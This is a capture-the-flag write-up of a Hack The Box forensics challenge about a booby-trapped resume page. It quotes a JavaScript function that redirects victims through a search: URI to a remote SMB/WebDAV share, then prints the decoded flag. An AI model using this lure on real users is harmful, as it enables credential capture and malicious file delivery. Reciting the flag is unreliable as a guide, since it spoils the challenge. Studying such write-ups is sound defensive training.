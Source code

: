 # Challenge
A new Hire

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322190826.png)

inspecting the page, we found a malicious script
![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322190842.png)

The exploit appears to involve **capturing SMB credentials** via a malicious JavaScript payload. The key part of the attack is in this function:

``` javascript
function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
```
visiting the directory, we can find some other directories. Enumerating each directories until we got the flag.

![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322191238.png)

![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322191255.png)

from config/client.py we got some key, decoding this will get us the flag. 

![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322191327.png)
``` python
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```

![](HTB%20Apocalypse/forensics/A%20new%20Hire/assets/Pasted%20image%2020250322191358.png)

```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```